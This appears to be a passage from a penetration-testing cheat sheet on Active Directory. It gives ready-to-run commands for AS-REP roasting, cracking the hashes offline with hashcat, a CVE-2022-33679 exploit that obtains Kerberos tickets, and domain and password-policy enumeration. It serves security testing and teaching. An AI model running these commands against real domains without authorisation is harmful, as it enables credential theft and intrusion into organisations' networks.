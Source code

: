 When a TGT request is made, the user must, by default, authenticate to the KDC in order for it to respond. Sometimes, this prior authentication is not requested for some accounts, allowing an attacker to abuse this configuration.

This configuration allows retrieving TGT encrypted with user's credential for users that have *Do not require Kerberos preauthentication* property selected:

- https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py COMPANY.LOCAL/ -usersfile /home/user/users.txt -request -dc-ip 192.168.0.10 -format hashcat
```

- https://github.com/GhostPack/Rubeus
```
Rubeus.exe asreproast /domain:COMPANY.LOCAL /dc:192.168.0.10 /format:hashcat /outfile:asrep-roast.hashes
hashcat -m 18200 'asrep-roast.hashes' -a 0 ./wordlists/rockyou.txt
```

Google Project Zero [undercover](https://googleprojectzero.blogspot.com/2022/10/rc4-is-still-considered-harmful.html) some issue with RC4 and Kerberos authentication.  
If a user have *Do not require Kerberos preauthentication* property there is [no more the need to crack the encrypted TGT](https://github.com/Bdenneu/CVE-2022-33679).
```
python3 CVE-2022-33679.py evilcorp.local/vulnasrepuser dc-2016.evilcorp.local -dc-ip 192.168.2.60
export KRB5CCNAME=vulnasrepuser_dc-2016.evilcorp.local.ccache 
crackmapexec smb dc-2016.evilcorp.local -k
```
<img src="./images/asprepwithoutcrack1.png" width="500"/>

<img src="./images/asprepwithoutcrack2.png" width="500"/>

## Authenticated enumeration

```
nltest /domain_trusts
nltest /trusted_domains
nltest /primary
nltest /sc_query:<domain>
nltest /dclist:<domain>
nltest /dsgetsite
nltest /whowill:<domain> <user>
```

### Domain policy using PowerView
```
Get-DomainPolicy
(Get-DomainPolicy)."System Access"
```

### Getting password policy
Get domain password policy using **ActiveDirectory** module. ([RSAT](https://4sysops.com/wiki/how-to-install-the-powershell-active-directory-module/))
```
Get-WindowsCapability -Name RSAT* -Online | Select-Object -Property DisplayName, State
Get-ADDefaultDomainPasswordPolicy
```
